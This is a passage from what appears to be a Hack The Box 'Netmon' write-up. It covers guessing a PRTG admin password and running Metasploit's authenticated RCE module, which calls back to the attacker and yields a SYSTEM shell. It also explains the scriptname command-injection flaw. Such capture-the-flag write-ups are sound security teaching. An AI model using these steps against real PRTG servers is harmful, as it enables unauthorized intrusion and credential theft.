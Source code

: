 The password did not work. Let’s try the year the box is released:

```bash
PrTg@dmin2019
```

We are in. * careful not to try bruteforcing the login, otherwise you might lock out the account.

![image.png](netmon%20277068bbc57d8010a0c2f51bc197301f/image%203.png)

We also know that there is an authenticated RCE for PRTG. Let’s use metasploit:

```bash
msfconsole
use exploit/windows/http/prtg_authenticated_rce
set LHOST tun0
set ADMIN_PASSWORD PrTg@dmin2019
set RHOSTS 10.10.10.152
run
```

This flaw affects PRTG versions prior to 18.2.39. An authenticated user can create a custom "EXE" notification trigger, which executes scripts when events occur (e.g., sensor failures). The script name field in the notification setup lacks proper sanitization, allowing command chaining via appended OS commands (e.g., using & or | separators). When the notification is triggered, the injected command runs with SYSTEM privileges.

- **Root Cause**: Poor validation of the scriptname parameter in the /api/addobject.htm endpoint. User input is directly concatenated into a command string executed by the PRTG core service.
- **Impact**:
Arbitrary command execution, potentially leading to reverse shells,
persistence, or lateral movement. PRTG's role in monitoring means it can exfiltrate stored credentials for other systems.
- **CVSS Score**: 8.8 (High) – High privileges required, but low complexity.

![image.png](netmon%20277068bbc57d8010a0c2f51bc197301f/image%204.png)

We now have SYSTEM shell.